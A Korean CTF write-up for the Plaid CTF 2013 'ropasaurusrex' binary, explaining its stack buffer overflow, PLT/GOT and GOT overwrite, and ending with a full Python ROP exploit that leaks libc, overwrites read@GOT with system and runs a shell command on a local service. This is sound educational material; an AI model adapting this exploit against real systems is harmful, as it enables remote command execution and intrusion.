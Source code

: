 # Ropasaurusrex
### Plaid CTF 2013
***Ropasaurusrex는 p CTF 2013의 문제입니다.***

ropasaurusrex를 처음 실행해 보면, 입력을 받은뒤  WIN이라는 글자와 함께 종료되는 모습을 볼 수 있습니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Main.PNG)

### Vuln Funtion
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Funciotn.PNG)

sub esp, 98 -> 0x98 만큼 버퍼 생성

lea eax, [ebp-buf] -> 0x88 부터 입력 버퍼

취약한 함수 = call sub_80483F4

buf의 크기는 총 0x88(136) + SFP = (140)인데, 입력은 0x100(256)만큼 받습니다.

└ read(fd, buf, 0x100)

즉 버퍼오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. read_plt, read_got
2. write_plt, write_got
3. pppr
4. dynamic_addr -> bss영역을 사용하지 않는 이유는 영역이 작아서 입니다.
5. read - system libc offset
  └ Offset을 구하는 이유는 주소가 가변적으로 바뀌어도 offset은 고정이기 때문에 이 offset에 base주소를 더해 주면, 
    원래 system주소가 나오기 때문입니다.
```
read - system을 하여 system의 offset을 구한다음 read_got의 addr를 얻어 구한 system offset을 빼면 원래의 system 주소가 나오게 됩니다.

가젯들을 구할 때에는 objdump -d, -h와 gdb를 이용하여 구하였습니다.

read - system을 하여 offset을 구할 때에는 gdb로 아무데나 b를 걸고 달린후 p system, p read를 이용하여 구해주시면 됩니다.

익스플로잇 순서는
```
1. 익스플로잇에 필요한 가젯들을 구합니다.
2. 구한 가젯들을 조합하여 페이로드를 작성합니다.
  
      └ write_plt에 read_got를 인자로 주어 로드된 read 주소를 얻어옵니다.

      └ 그 후 read_plt를 이용하여 dynamic섹션에 명령어를 받습니다.

      └ got overwrite를 이용하여 read_got를 구한 system주소를 씁니다.

      └ read_plt(system)에 dynamic섹션 영역을 인자로 주어 실행합니다.
```
###Got Overwrite?
Got Overwrite란 read, write함수 등 함수들은 plt주소와 got주소를 가지고 있는데,

plt란 외부 프로시저를 연결해주는 테이블 이라고 나와있습니다.

plt를 이용하여 다른 라이브러리에 있는 프로시저를 호출하여 사용하는 것이 가능합니다.

got는 plt가 참조하는 테이블이고, 프로시저들의 주소가 들어있습니다.

이런 plt와 got를 사용하는 이유는 프로그램을 조금 더 가볍게 하기 위해서 입니다.

원래 옛날에 코드를 컴파일 하면, 라이브러리가 프로그램 안에 들어가서 무거워 졌었는데, 지금은 이렇게 링크를 하여 외부 파일에서 함수를 불러와 프로그램이 가벼워 집니다.

이렇게 프로그램안에 모든 함수 주소를 넣는것을 Static link, 외부 파일에서 필요한 함수만 불러오도록 하는 것을 dynamic link라고 합니다.

간단하게 dynamic link 링크 방식은 plt -> got -> 실제 함수주소를 호출하게 됩니다.

[참고] https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

그럼 plt overwrite는 왜 없냐면 plt는 read only속성이기 때문에 overwrite하는게 불가능하기 때문입니다.

###소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
#!/usr/bin/python

from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 6666))

read_plt = 0x804832C
read_got = 0x804961C
write_plt = 0x804830C
write_got = 0x8049614
pppr = 0x80484b6

dynamic_addr = 0x8049530
read_system_libc = 0x9abe0

cmd = 'ls -al'

print "[+]Exploit!"
payload = ''
payload += 'A' * 140
#Get target write libc address
payload += p(write_plt)
payload += p(pppr)
payload += p(0x1) #stdout
payload += p(read_got)
payload += p(0x4)
#write in dynamic section
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0) #stdin
payload += p(dynamic_addr)
payload += p(len(cmd))
#got overwrite
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0)
payload += p(read_got)
payload += p(0x4)
#system call
payload += p(read_plt)
payload += p(0x41414141)
payload += p(dynamic_addr)

s.send(payload)

#libc distance calc
read_libc = up(s.recv(4))
system_addr = read_libc - read_system_libc
print "System addr [*]" + hex(system_addr)

s.send(cmd)
s.send(p(system_addr))

print s.recv(1024)
print "Finish!"

```
